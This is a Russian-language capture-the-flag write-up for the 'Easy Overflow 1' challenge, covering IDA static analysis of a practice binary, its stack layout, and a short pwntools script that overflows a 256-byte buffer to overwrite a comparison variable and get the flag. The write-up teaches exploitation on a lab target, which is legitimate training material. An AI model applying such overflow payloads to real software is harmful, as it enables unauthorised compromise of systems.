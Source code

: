 
# Сайт: forkbomb.ru
# Автор: @mrvos (Vlad Roskov) 
# Задание: Easy Overflow 1
# Сложность: Easy

Плавно подходим к четвертому заданию из серии MicCheck. В задании теперь не получится пропатчить память и сразу же получить флаг ибо мы должны отправлять свой ввод на удаленный сервер. Чтобы это сделать надо воспользоваться библеотекой, которая называется pwntools. 
Традиционно начинаем статически анализировать программу.

#### Статический анализ.

![image](https://github.com/user-attachments/assets/790fd5e8-767c-4a75-8aca-14f7551f1750)

В первом блоке программы заносим адрес строки `dword_4006A4` в переменную `giveflag`. По данному адресу лежит строка `No.` о чем нам любезно подсказывает IDA.

![image](https://github.com/user-attachments/assets/f681879a-c794-4192-beeb-fc25da34f2f0)

Ну и собственно сравнивается строка `giveflag` и `s2` с помощью функции `_strcmp` и прыгает в одну из двух веток: одна выводит "локальный флаг", а другая, что флаг нам не дадут. <br />
![image](https://github.com/user-attachments/assets/1803bb82-fdba-4db0-b016-92a71400d56a)
![image](https://github.com/user-attachments/assets/1477319a-d6b0-4d62-91e7-f1c27221065d)
![image](https://github.com/user-attachments/assets/2289ea6b-c081-42af-b2fb-97b714d7a4c9)

#### Решение

Приступим к решению задачи. У нас есть переменная `word` она занимает в памяти 256 байт и  `giveflag`, который занимает 4 байта. Данные локальные переменные кладутся в стэк.
+--------------+ <br />
|     ...      |<br />
+--------------+<br />
|     word     |<br />
+--------------+<br />
|  give_flag   |<br />
+--------------+<br />
|     RBP      |<br />
+--------------+<br />
|     RET      |<br />
+--------------+<br />

Получим информацию о бинарном файле с которым мы работаем:
```py
from pwn import *

p = ELF('./mc4_censored')
```

![image](https://github.com/user-attachments/assets/dd5d7fc8-a415-49a0-9e67-29d2ab92ef75)

Никаких защит не стоит, все замечательно, можно спокойно переполнять. Напишем следующий скрипт на языке python

```py
#!/usr/bin/env python3
from pwn import *


p = process('./mc4_censored')
pause()
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```

